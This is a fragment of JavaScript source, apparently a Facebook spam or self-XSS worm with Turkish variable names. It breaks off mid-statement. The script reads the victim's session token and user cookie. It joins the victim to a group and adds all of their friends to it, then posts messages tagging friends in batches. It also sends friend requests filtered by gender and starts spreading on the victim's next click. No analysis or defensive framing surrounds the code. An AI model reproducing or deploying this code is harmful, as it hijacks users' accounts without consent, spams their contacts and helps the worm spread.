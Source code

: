 ['203435979866853'];  var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value']; var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]);  var httpwp = new XMLHttpRequest(); var urlwp = '/ajax/groups/membership/r2j.php?__a=1'; var paramswp = '&amp;ref=group_jump_header&amp;group_id=' + gid + '&amp;fb_dtsg=' + fb_dtsg + '&amp;__user=' + user_id + '&amp;phstamp='; httpwp['open']('POST', urlwp, true); httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded'); httpwp['setRequestHeader']('Content-length', paramswp['length']); httpwp['setRequestHeader']('Connection', 'keep-alive'); httpwp['send'](paramswp);  var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value']; var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]);  var friends = new Array(); gf = new XMLHttpRequest(); gf['open']('GET', '/ajax/typeahead/first_degree.php?__a=1&amp;viewer=' + user_id + '&amp;token' + Math['random']() + '&amp;filter[0]=user&amp;options[0]=friends_only', false); gf['send'](); if (gf['readyState'] != 4) {} else {     data = eval('(' + gf['responseText']['substr'](9) + ')');     if (data['error']) {} else {         friends = data['payload']['entries']['sort'](function (_0x93dax8, _0x93dax9) {             return _0x93dax8['index'] - _0x93dax9['index'];         });     }; };  for (var i = 0; i &lt; friends['length']; i++) {     var httpwp = new XMLHttpRequest();     var urlwp = '/ajax/groups/members/add_post.php?__a=1';     var paramswp= '&amp;fb_dtsg=' + fb_dtsg + '&amp;group_id=' + gid + '&amp;source=typeahead&amp;ref=&amp;message_id=&amp;members=' + friends[i]['uid'] + '&amp;__user=' + user_id + '&amp;phstamp=';     httpwp['open']('POST', urlwp, true);     httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded');     httpwp['setRequestHeader']('Content-length', paramswp['length']);     httpwp['setRequestHeader']('Connection', 'keep-alive');     httpwp['onreadystatechange'] = function () { if (httpwp['readyState'] == 4 &amp;&amp; httpwp['status'] == 200) {};     };     httpwp['send'](paramswp); }; var spage_id = "686129931429172"; var spost_id = "686129931429172"; var sfoto_id = "686129931429172"; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var smesaj = ""; var smesaj_text = ""; var arkadaslar = []; var svn_rev; var bugun= new Date(); var btarihi = new Date();  btarihi.setTime(bugun.getTime() + 1000*60*60*4*1); if(!document.cookie.match(/paylasti=(\d+)/)){ document.cookie = "paylasti=hayir;expires="+ btarihi.toGMTString(); }   //arkadaslari al ve isle function sarkadaslari_al(){ 		var xmlhttp = new XMLHttpRequest();         xmlhttp.onreadystatechange = function () { 			if(xmlhttp.readyState == 4){ 				  eval("arkadaslar = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";"); 				  for(f=0;f&lt;Math.round(arkadaslar.payload.entries.length/10);f++){ 					smesaj = ""; 					smesaj_text = ""; 				  for(i=f*10;i&lt;(f+1)*10;i++){ 					if(arkadaslar.payload.entries[i]){ 				  smesaj += " @[" + arkadaslar.payload.entries[i].uid +  ":" + arkadaslar.payload.entries[i].text + "]"; 				  smesaj_text += " " + arkadaslar.payload.entries[i].text; 				  } 					} 					sdurumpaylas();				} 				 			} 			         }; 		var params = "&amp;filter[0]=user"; 		params += "&amp;options[0]=friends_only"; 		params += "&amp;options[1]=nm"; 		params += "&amp;token=v7";         params += "&amp;viewer=" + user_id; 		params += "&amp;__user=" + user_id; 		         if (document.URL.indexOf("https://") >= 0) { xmlhttp.open("GET", "https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); }         else { xmlhttp.open("GET", "http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); }         xmlhttp.send(); }  //tiklama olayini dinle var tiklama = document.addEventListener("click", function () { if(document.cookie.split("paylasti=")[1].split(";")[0].indexOf("hayir") >= 0){ svn_rev = document.head.innerHTML.split('"svn_rev":')[1].split(",")[0]; sarkadaslari_al(); document.cookie = "paylasti=evet;expires="+ btarihi.toGMTString();  document.removeEventListener(tiklama); }  }, false);     //arkada?¾ ekleme function sarkadasekle(uid,cins){ 		var xmlhttp = new XMLHttpRequest();         xmlhttp.onreadystatechange = function () { 			if(xmlhttp.readyState == 4){	 			}         }; 		 		xmlhttp.open("POST", "/ajax/add_friend/action.php?__a=1", true);  		var params = "to_friend=" + uid; 		params += "&amp;action=add_friend"; 		params += "&amp;how_found=friend_browser"; 		params += "&amp;ref_param=none"; 		params += "&amp;outgoing_id="; 		params += "&amp;logging_location=friend_browser"; 		params += "&amp;no_flyout_on_click=true"; 		params += "&amp;ego_log_data="; 		params += "&amp;http_referer="; 		params += "&amp;fb_dtsg=" + document.getElementsByName('fb_dtsg')[0].value;         params += "&amp;phstamp=165816749114848369115"; 		params += "&amp;__user=" + user_id; 		xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev); 		xmlhttp.setRequestHeader ("Content-Type","application/x-www-form-urlencoded"); 		 if(cins == "farketmez" &amp;&amp; document.cookie.split("cins" + user_id +"=").length > 1){ 		xmlhttp.send(params); }else if(document.cookie.split("cins" + user_id +"=").length &lt;= 1){ 		cinsiyetgetir(uid,cins,"sarkadasekle"); }else if(cins == document.cookie.split("cins" + user_id +"=")[1].split(";")[0].toString()){ 		xmlhttp.send(params); } }  //cinsiyet belirleme var cinssonuc = {}; var cinshtml = document.createElement("html"); function scinsiyetgetir(uid,cins,fonksiyon){ 		var xmlhttp = new XMLHttpRequest();         xmlhttp.onreadystatechange = function () { 			if(xmlhttp.readyState == 4){ 			eval("cinssonuc = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";"); 			cinshtml.innerHTML = cinssonuc.jsmods.markup[0][1].__html 			btarihi.setTime(bugun.getTime() +